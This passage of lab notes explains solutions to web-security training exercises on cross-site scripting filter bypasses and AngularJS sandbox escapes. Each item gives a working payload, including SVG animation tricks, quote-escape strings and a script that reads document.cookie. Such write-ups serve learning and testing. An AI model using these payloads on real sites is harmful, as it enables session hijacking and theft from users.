 4. Already solved
5. This lab has reflected XSS in the search bar, but blocks event triggers and the `href` attribute for links. This can be bypassed, however, by using an svg animation to dynamically set the disallowed `href` attribute. The following payload creates a SVG with a link that executes javascript on click: `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>`
6. This lab has reflected XSS that blocks most common tags, but misses some SVG tags. As such, the following payload can be used to execute javascript: `<svg><animatetransform onbegin=alert() /></svg>`
7. This lab has reflected XSS where angle brackets are correctly encoded, and as such new HTML tags cannot be injected. As such, the payload must inject a malicious attribute into an existing tag, in this case the `input` field. The following payload will trigger an alert when then input field is moused over (user interaction is required just to prevent infinite looping): `"onmouseover=alert() x="`
8. This lab has stored XSS where a malicious website link can cause XSS when a user clicks on a commenter's name. This can be exploited by submitting the following payload for the website field when creating a new comment: `javascript:alert()`
9. This lab reflects user input into a `canonical` `link` tag. This leads to reflected XSS, by going to the following endpoint: `/?'accesskey='x'onclick='alert()'x='`
10. This lab reflects user input into a javascript string and escapes quotes. However, due to the order to HMTL/javascript parsing, the entire script can be escaped by simply putting a `</script>` tag. This leads to the following payload: `</script><img src=x onerror=alert()>`
11. This lab has the same issue as before, but does not escape quotes. As such, the following payload can be used to execute javascript without breaking the string literal that it is injected into: `'-alert()-'`
12. This lab is the same as above, but it prepends single quotes with a `\` character. However, it does not escape backslashes as well, so an additional backslash can be used in order to escape the one that will be injected. This results in the following payload: `\';alert()//`
13. This lab has user input get reflected into some javascript within the `Back to Blog` link at the bottom of the page. However, there is a strict character filter in place. As an example, spaces are not allowed, but empty comments (`/**/`) can be used to emulate them. The attack can be triggered by navigating to the following address: `/post?postId=5&%27%7D,x=x=>%7Bthrow/**/onerror=alert,1%7D,toString=x,window%2b%27%27,%7Bx:%27`
14. This lab reflects the comments website within a javascript string and escapes single quotes. This can be avoided, however, due to the ordering of HTML vs javascript interpretation. More specifically, by HTML encoding single quotes within a javascript string, they will be decoded before the javascript is parsed. This results in bypassing the filter that escapes them, allowing for XSS. The following payload can be used to match the required website format: `http://asdf?&apos;-alert()-&apos;`
15. This lab has reflected XSS where the search term is reflected within a javascript template literal. While various quotes, brackets, etc are escaped, the injection being within a template literal means that it doesn't even need to be escaped. As such, the following search term will trigger the XSS: `${alert()}`

# AnglarJS Sandbox
1. This lab has an AngularJS sandbox escape, but blocks quotes of any kind. The overall goal of exploiting this is to generate a string without using quotes using the `toString()` method, using the DOM to access the `String` prototype, and override the `charAt` function to bypass the sandbox. Navigating to the following page results in the exploit being triggered: `/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,41)=1`
2. This lab also has a sandbox escape, but additionally employs an AngularJS CSP and has a character maximum for search terms. Using the following script on the provided exploit server can bypass all of the restrictions, triggering an alert containing `document.cookie`:
```
<script>
document.location = 'https://ac401f541f16a255c07861f0009300dd.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```
